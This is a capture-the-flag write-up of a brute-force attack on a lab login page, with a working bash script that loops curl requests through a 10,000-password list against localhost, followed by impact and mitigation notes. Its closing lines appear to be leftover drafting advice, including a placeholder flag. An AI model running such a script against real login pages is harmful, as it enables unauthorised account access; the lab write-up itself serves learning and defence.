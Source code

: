 # Password Cracking (Brute Force Attack)

## Description
This Flag involved performing a brute force attack on the login page to identify a valid username and password combination. By testing a list of common passwords, we were able to successfully gain access and retrieve the flag.

## Steps to Exploit
1. **Identify Target:**
   - The login page was identified as the target for the brute force attack.

2. **Use the Script:**
   - We used a Bash script to automate the process of testing a list of common passwords against the login form. The script iterated through the passwords and checked the response for the presence of the flag.

3. **Run the Script:**
   - The script was executed with a password list (`10k.txt`). During the process, the correct password "shadow" was identified.

4. **Gain Access:**
   - After identifying the correct password, "shadow," the login was successful, and the flag was obtained.


## Impact
The success of a brute force attack highlights several critical vulnerabilities:

- **Weak Password Policies:** If users or administrators use common or weak passwords, they become easy targets for brute force attacks. This can lead to unauthorized access to sensitive systems and data.
  
- **Account Compromise:** Once an attacker gains access through brute force, they can potentially escalate privileges, access sensitive information, or perform malicious activities within the system.

- **Automation Risks:** Automated scripts can quickly cycle through password lists, making brute force attacks more efficient and dangerous if proper protections are not in place.



## Mitigation
To prevent brute force attacks, consider implementing the following security measures:

- **Strong Password Policies:** Enforce strong password policies requiring a combination of uppercase letters, lowercase letters, numbers, and special characters.
  
- **Account Lockout Mechanisms:** Implement account lockout mechanisms that temporarily disable an account after a certain number of failed login attempts.
  
- **CAPTCHA:** Introduce CAPTCHA or other challenge-response tests to make automated brute force attacks more difficult.

- **Two-Factor Authentication (2FA):** Implement two-factor authentication to add an additional layer of security, requiring not just a password but also a second form of verification.

## Script Used
Below is the Bash script used to perform the brute force attack:

```bash
#!/bin/bash

passwords=$(<10k.txt)

# Split the passwords into an array
IFS=$'\n' read -d '' -r -a password_array <<< "$passwords"

counter=1

for i in "${password_array[@]}"; do
    response=$(curl -X POST "http://localhost/index.php?page=signin&username=admin&password=${i}&Login=Login#")
    echo "$response" | grep 'flag' && echo "Flag found on password ${counter}: ${i}" && break
    ((counter++))
done
```

How the Script Works:

Password List: The script reads a list of 10,000 common passwords from a file named 10k.txt.
Iteration: It then iterates through each password, using curl to submit the password to the login form.
Flag Detection: If the response contains the word "flag," the script outputs the correct password and stops.



### Adding the Script File:
- Place your `10k.txt` file (if necessary) and the `script.sh` file in the `Resources/` folder.
- If `10k.txt` is too large to include, simply reference it in your documentation, noting that it was a list of common passwords used for the brute force attack.

### Final Steps:
- Replace `B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2` with the actual flag you obtained.
- Add any relevant screenshots or logs in the `screenshots/` folder and reference them in the "Evidence" section.

This documentation now thoroughly explains the brute force attack process, the script used, its implications, and how such vulnerabilities can be mitigated. This ensures that your work is well-documented for evaluation.
